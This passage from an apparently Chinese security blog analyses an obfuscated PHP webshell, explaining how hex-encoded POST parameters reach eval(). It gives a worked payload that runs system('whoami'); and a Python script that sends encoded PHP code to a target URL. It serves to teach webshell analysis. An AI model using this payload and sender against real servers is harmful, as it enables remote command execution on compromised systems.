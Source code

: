 - `substr()` 函数将传进去的 `Qxi*37yz` 参数字符串，删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容）
- `pack("H*",...)` 函数将处理后的 `Qxi*37yz` 参数字符串进行十六进制编码转换
- `foreach()` 将原本的 `$_POST` 变量替换为经过十六进制编码转换后的字符串

注：这里可能有些绕，多上手尝试一下就明白了

接下来我们来看 `Xt()` 这个函数：

```php
function Xt(){
	return eval($this->encode());
}
```
它将 `encode()` 函数的执行结果带入到 `eval()` 高危函数当中，即：

```php
function Xt(){
	return eval($post1);  //encode()函数的输出为$post1
}
```
那假设我们要执行 `whoami` 命令，那就要让 `$post1` 等于 `system('whoami');`，这没毛病吧？

所以结合来看，我们先要生成16进制的字符串：

![whoami转十六进制.png](https://blog.zgsec.cn/usr/uploads/2023/08/3506909610.png)

但眼尖的师傅可能会发现，为什么最前面要加个 `a` 以及最后面要加个 `b` 呢？
那是因为上面有 `substr()` 函数啊，会删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容），小傻瓜~所以现在懂了吗？

所以整体参数的传参流程如下：

![参数传参流程.png](https://blog.zgsec.cn/usr/uploads/2023/08/4099814745.png)

- 刚开始传入参数：`num`=`2`，`Qxi*37yz`=`6173797374656d282777686f616d6927293b62`
- 第一步：先根据 `substr()`，从num=2开始截取到倒数第2位，于是 `Qxi*37yz` 便等于 `73797374656d282777686f616d6927293b`
- 第二步：再根据 `pack("H*",...)`，将 `Qxi*37yz`=`73797374656d282777686f616d6927293b` 从16进制转为字符串即 `system('whoami');`
- 第三步：最后根据 `foreach()`，将内容返还给原本的值，使得 `encode()` 函数的输出变量 `$post1` 为 `system('whoami');`
- 第四步：再在 `Xt()` 函数当中，用 `eval()` 高危函数执行php语句 `system('whoami');`,便成功执行系统命令 `whoami`

当然这个PHP木马也能用蚁剑来连接，前提是需要写一个编码器，如果你懂原理了，相信你分分钟就能写出来~

这里的话，微信的 `@Elvery` 师傅还写了一个直接生成Payload一键传参的Python脚本，师傅们可以参考一下：
```python
import requests
import base64

# 指定num参数和要执行的PHP代码
num = 5
php_code = 'echo "Hello, world!";'

# 把PHP代码转换为十六进制字符串
hex_code = php_code.encode().hex()

# 在字符串的开头和结尾加上num个任意字符
encoded_code = 'a'*num + hex_code + 'a'*num

# 发送POST请求
response = requests.post('http://your-target-url/path-to-php-file.php', data={
    'num': num,
    'Qxi*37yz': encoded_code,
})

# 打印服务器的响应
print(response.text)
```
